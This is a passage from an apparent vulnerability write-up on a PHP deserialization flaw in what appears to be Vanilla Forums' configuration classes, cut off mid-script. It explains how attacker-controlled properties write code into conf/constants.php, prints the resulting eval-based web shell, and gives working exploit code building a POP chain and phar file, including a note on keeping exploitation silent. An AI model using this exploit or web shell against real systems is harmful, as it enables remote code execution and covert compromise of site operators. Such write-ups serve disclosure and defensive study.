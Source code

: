 <p class="cn" markdown="1">At *[10]* we can control the `variableName` since it comes from our `Group` property. Then at *[11]* there is a PHP show stopper. This show stopper will become relevant in just a bit, and I will show you how to bypass it. Also, we can see that at *[12]* and *[13]* that we can influence/control the PHP code being generated and essentially what this function is doing is dynamically building the PHP configuration file using our controlled properties!</p>

<p class="cn" markdown="1">Back to the `save` function, we can see at *[14]* that the contents are written to a temporary file. Then, finally at *[15]* the code renames the temporary file to the filename we can control via the `Source` property. That code one more time:</p>

```php
                if (file_put_contents($tmpFile, $fileContents) !== false) {       // 14
                    chmod($tmpFile, 0775);
                    $result = rename($tmpFile, $this->Source);                    // 15
                }
```

<p class="cn" markdown="1">With a well-designed payload, we can create a file with the following contents:</p>

```php
<?php if (!defined('APPLICATION')) exit();
$a=eval($_GET[c]);//[''] = '';

// Last edited by Unknown (172.16.175.1)2018-09-16 00:59:01
```

<p class="cn" markdown="1">Now even though there is a show stopper, we can simply overwrite the `conf/config.php` file since the file is supposed to be writable anyway (due to configuration changes by the admin)! However for my final exploit, I wanted to make sure I don't damage the application so I choose to overwrite the `conf/constants.php` file instead and re-write the constants back in, making exploitation pretty silent. This is ok because the `conf` directory is supposed to be writable anyway.</p>

<p class="cn" markdown="1">Another reason why I leveraged these files is because they are included at runtime, so we bypass the PHP show stopper!</p>

<p class="cn" markdown="1">Now. If you have made it down this far, then you deserve some exploit code! Please note that since we are in a `__destruct` call, php has no cwd so we can't just use a relative path to the `constants.php` file. You may need to leak the path (which is achievable).</p>

```php

// custom pop chain
class Gdn_ConfigurationSource{
    public function __construct(){
        $this->Type = "file";
        $this->Source = "/var/www/html/conf/constants.php";
        $this->Group = 'a=eval($_GET[c]);//';
        $this->Settings[""] = "";       
        $this->Dirty = true;
        $this->ClassName = "Gdn_ConfigurationSource";
    }
}
class Gdn_Configuration {
    public $sources = [];
    public function __construct(){
        $this->sources['si'] = new Gdn_ConfigurationSource();
    }
}

// create new Phar
$phar = new Phar('poc.phar');
$phar->startBuffering();
$phar->addFromString('test.txt', 'text');
$phar->setStub('<?php __HALT_COMPILER(); ?>');

// add our object as meta data
```